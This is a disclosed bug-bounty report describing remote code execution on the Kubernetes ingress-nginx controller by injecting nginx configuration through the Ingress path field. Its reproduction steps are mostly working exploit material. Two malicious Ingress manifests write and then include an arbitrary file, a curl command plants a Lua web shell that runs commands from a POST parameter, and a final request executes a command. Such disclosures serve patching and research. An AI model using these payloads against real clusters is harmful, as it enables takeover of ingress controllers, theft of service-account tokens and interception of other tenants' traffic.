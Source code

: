 # RCE  on ingress-nginx-controller via Ingress spec.rules.http.paths.path field

## Report Details
- **Report ID**: 1620702
- **URL**: https://hackerone.com/reports/1620702
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-06-30T14:34:17.996Z
- **Disclosed**: 2023-10-26T10:07:49.100Z

## Reporter
- **Username**: ginoah
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: kubernetes

## Vulnerability Information
Report Submission Form

## Summary:

A user with ingress create/update privilege may inject config into `nginx.conf` with `path`.
Config the log_format and access_log to write arbitrary file.
Include the file we created to bypass `path` sanitizer to RCE.

## Kubernetes Version:

```
serverVersion:
  buildDate: "2022-03-06T21:32:53Z"
  compiler: gc
  gitCommit: e6c093d87ea4cbb530a7b2ae91e54c0842d8308a
  gitTreeState: clean
  gitVersion: v1.23.4
  goVersion: go1.17.7
  major: "1"
  minor: "23"
  platform: linux/amd64
```

## Component Version:

```
-------------------------------------------------------------------------------
NGINX Ingress controller
  Release:       v1.2.1
  Build:         08848d69e0c83992c89da18e70ea708752f21d7a
  Repository:    https://github.com/kubernetes/ingress-nginx
  nginx version: nginx/1.19.10

-------------------------------------------------------------------------------
```

## Steps To Reproduce:

  1. Create a kind cluster config

lab.yaml
```yaml
kind: Cluster
name: lab
apiVersion: kind.x-k8s.io/v1alpha4
nodes:
# the control plane node config
- role: control-plane
  kubeadmConfigPatches:
  - |
    kind: InitConfiguration
    nodeRegistration:
      kubeletExtraArgs:
        node-labels: "ingress-ready=true"
  extraPortMappings:
  - containerPort: 80
    hostPort: 80
    protocol: TCP
  - containerPort: 443
    hostPort: 443
    protocol: TCP
# the three workers
- role: worker
- role: worker
- role: worker
```

  2. Create a testing cluster with the previous config

```bash
kind create cluster --config lab.yaml
```

  3. Install nginx-ingress-controller

```bash
kubectl apply -f https://raw.githubusercontent.com/kubernetes/ingress-nginx/main/deploy/static/provider/kind/deploy.yaml
```

  4. Create a the first malicious ingress

**This ingress will allow attacker to write arbitrary content to arbitrary file.**
(note that the service `not-exist-service` does not need to exist)

write_ingress.yaml
```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: webexp
spec:
  rules:
    - host: "example.com"
      http:
        paths:
          - path: "/x/ {\n
            }\n
          }\n
          log_format exploit escape=none $http_x_ginoah;\n
          server {\n
            server_name x.x;\n
            listen 80;\n
            listen [::]:80;\n
            location /z/ {\n
                access_log /tmp/luashell exploit;\n
            }\n
            location /x/ {\n
          #"
            pathType: Exact
            backend:
              service:
                name: not-exist-service
                port:
                  number: 8080
```

Apply the first malicious ingress config
```bash
kubectl apply -f write_ingress.yaml
```

  5. Write a malicious lua config to `/tmp/luashell`

Note that in other cluster config, the `localhost` may need to change to ingress-controller's ip.
```bash
curl localhost/z/ -H "host: x.x" -H 'x-ginoah: content_by_lua_block {ngx.req.read_body();local post_args = ngx.req.get_post_args();local cmd = post_args["cmd"];if cmd then f_ret = io.popen(cmd);local ret = f_ret:read("*a");ngx.say(string.format("%s", ret));end;}'
```

  6. Create a the second malicious ingress

**This ingress will include the malicious lua config, which allow attack to execute arbitrary command.**

webshell_ingress.yaml
```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: webexp
spec:
  rules:
    - host: "example.com"
      http:
        paths:
          - path: "/x/ {\n
            }\n
          }\n
          log_format exploit escape=none $http_x_ginoah;\n
          server {\n
            server_name x.x;\n
            listen 80;\n
            listen [::]:80;\n
            location /z/ {\n
                include /tmp/luashell;\n
            }\n
            location /x/ {\n
          #"
            pathType: Exact
            backend:
              service:
                name: not-exist-service
                port:
                  number: 8080
```

Apply the second malicious ingress config
```bash
kubectl apply -f webshell_ingress.yaml
```

  7. RCE and get output

```bash
curl localhost/z/ -H "host: x.x" -d "cmd=id"
```

## Supporting Material/References:

  * [attachment / reference]

{F1802462}

## Impact

A cluster user/SA with ingress create/update privilege may Remote Code Execution on `ingress-nginx-controller` pod

After RCE on ingress-nginx-controller the attacker may
- utilize the token to take further action on cluster with ingress's privilege
- eavesdrop the traffic, modify other ingress rule
- DOS
- ...

## Attachments
- Screen_Shot_2022-06-30_at_10.22.52_PM.png
